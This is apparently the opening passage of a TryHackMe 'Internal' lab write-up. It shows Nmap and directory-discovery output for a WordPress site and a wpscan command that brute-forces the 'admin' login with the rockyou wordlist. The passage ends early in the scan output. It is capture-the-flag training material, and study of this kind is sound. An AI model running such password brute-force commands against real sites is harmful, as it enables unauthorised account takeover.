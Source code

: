 # TryHackMe Machine Internal WriteUp

**IP Address**
```shell
export tip=10.10.215.130
```

**Nmap Scan Results**
```shell
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works
```

## Enumeration

**HTTP**

***Content-Discovery***
```
blog                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 187ms]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 188ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 188ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 190ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
wp-content              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 191ms]
wp-login.php            [Status: 200, Size: 4530, Words: 211, Lines: 83, Duration: 211ms]
license.txt             [Status: 200, Size: 19915, Words: 3331, Lines: 385, Duration: 186ms]
wp-includes             [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 190ms]
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5, Duration: 773ms]
wp-admin                [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 185ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 214ms]
wp-signup.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 202ms]
```
Its using a old wordpress framework that are vulnerable to many attacks and `admin` Users have weak password.
```shell
wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/wp-login.php/ [10.10.215.130]
[+] Started: Sat Aug 20 14:58:36 2022

Interesting Finding(s):

[+] Headers
```